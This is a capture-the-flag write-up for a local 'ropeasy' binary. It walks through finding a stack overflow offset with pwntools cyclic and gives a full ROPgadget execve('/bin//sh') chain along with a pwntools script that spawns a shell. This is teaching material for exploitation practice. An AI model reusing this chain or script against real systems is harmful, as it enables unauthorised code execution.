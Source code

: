 # Easy ROP challenge  

## Intro 
Some prerequisites:  
* Some understanding of reverse engineering
* Competent at using a debugger such as Radare2, GDB, Ghidra, etc
* Basic understanding of linux binaries

We'll be treating the ropeasy binary as an unknown binary, we have no context of what it does or how to exploit it. Like all things in hacking, we start with enumeration.  
Tools like [checksec](https://docs.pwntools.com/en/stable/commandline.html) can help us indenify potential attack vectors and understand where we might want to start:  

![checksecOutput](https://user-images.githubusercontent.com/65077960/127680041-8f0ecfcc-d9e4-47be-8673-6cc3966e39de.png)

We're currently itneresting in "No canary found". Typically a random value is generated at program initialization and inserted at the end of the high risk area where the stack overflows.
At the end of the function, it checks to see if the value has been modified. The binary is also statically linked, so we can assume the gadgets are available to us.  

## Using it as intended

Our first test is typically to run the binary and use it as intended. Look for inputs and outputs, understand how the binary might work:  
![image](https://user-images.githubusercontent.com/65077960/127681942-de961813-665b-4959-acd3-da4673c8c445.png)

![image](https://user-images.githubusercontent.com/65077960/127681981-32fa2a07-95b4-4181-bddb-7f23d13b564e.png)

If our input is too large, we get a segmentation fault:  
![image](https://user-images.githubusercontent.com/65077960/127682045-57738d79-a39a-4e9f-a7d0-f71b83a6d8de.png)

## Finding the offset
Pwn has a tool that we can u se to generate large strings and compare them to get the offset:  
```
! pwn cyclic 200
```
You'lkl be given output that looks like this:  
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
We run the program (just type run) and provide the string as the input and receive another SIGSEV. We calculate the offset with the value in the ESP register:
```
x/xw $esp
```
and pass it to pwn:  
```
! pwn cyclic -l <ESP Value>
```
exit out and use:
```
ROPgadget --ropchain --binary ropeasy_updated
```
We're given a python payload as output (in step 5):  
```py
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb060) # @ .data
p += pack('<I', 0x080b94a6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb064) # @ .data + 4
p += pack('<I', 0x080b94a6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x08049583) # xor eax, eax ; ret
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080eb060) # @ .data
p += pack('<I', 0x0806fed1) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x080eb060) # padding without overwrite ebx
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x08049583) # xor eax, eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0806da85) # int 0x80
```

With this, we  can make a python script to exploit the binary:  
> Run with python2.7
```py
import sys
from pwn import *
from subprocess import Popen, PIPE
context.log_level = "DEBUG"
# Run the binary and conenct to it at 127.0.0.1:1337

def main():
    # Create process and cause seg fault
    proc = process(context.binary.path)
    proc.sendline(cyclic(1024))
    proc.wait()
    proc.close()
    # Get dump core and find offset
    core = Coredump("./core")
    offset = cyclic_find(core.fault_addr)
    log.info("OFFSET: {}".format(offset))
    # Generate exploit code with ROPgadget
    STDOUT = Popen(["ROPgadget", "--ropchain", "--binary", context.binary.path], stdout=PIPE).communicate()[0]
    code = STDOUT[STDOUT.find("#!"):].replace("\t", "")
    log.info("Executing: \n" + code)
    # Execute exploit to get ropchain var
    exec(code)
    ropchain = p
    log.info("ROPChain Built: " + ropchain)
    # Spawn interactive shell
    proc = process(context.binary.path)
    proc.sendline(fit({offset:ropchain}))
    proc.interactive()
    proc.close()

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: {} <binary> <addr:port>".format(sys.argv[0]))
        sys.exit()
    context.binary = sys.argv[1]
    addr = sys.argv[2].split(":")
    main()
```
